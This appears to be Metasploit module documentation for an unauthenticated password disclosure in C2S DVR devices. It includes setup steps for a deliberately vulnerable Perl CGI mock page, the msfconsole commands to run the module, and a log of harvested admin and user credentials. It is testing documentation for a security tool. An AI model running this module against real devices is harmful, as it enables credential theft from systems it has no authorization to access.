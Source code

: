 ## Description

  C2S DVR allows an unauthenticated user to disclose the username & password by requesting the javascript page `read.cgi?page=2`

## Vulnerable Application

This module has been verified against the mock vulnerable page listed below.

### Mock Vulnerable Page

These instructions will create a cgi environment and a vulnerable perl application for exploitation.
Kali rolling (2019.1) was utilized for this tutorial, with apache.

#### Setup

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/html/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/html/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/html/cgi-bin/read.cgi`:

```
#!/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
print $query->header( -type=> "text/javascript"),
$query->import_names( 'Q' );

my $data = <<'DATA';
var pw_enflag = "1";
var pw_adminpw = "12345";
var pw_retype1 = "12345";
var pw_userpw = "56789";
var pw_retype2 = "56789";
var pw_autolock = "0";
DATA

if ($Q::page == 2) {
  print $data;
}
```

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/c2s_dvr_password_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### Against the Mock page listed above

  ```
    resource (c2s.rb)> use auxiliary/gather/c2s_dvr_password_disclosure
    resource (c2s.rb)> set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    resource (c2s.rb)> set verbose true
    verbose => true
    resource (c2s.rb)> exploit
    [*] Attempting to load data from /cgi-bin/read.cgi?page=2
    [+] Found: admin:12345
    [+] Found: user:56789
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    [*] Starting persistent handler(s)...
    msf5 auxiliary(gather/c2s_dvr_password_disclosure) > creds
    Credentials
    ===========
    
    host       origin     service        public  private  realm  private_type
    ----       ------     -------        ------  -------  -----  ------------
    127.0.0.1  127.0.0.1  80/tcp (http)  admin   12345           Password
    127.0.0.1  127.0.0.1  80/tcp (http)  user    56789           Password
  ```
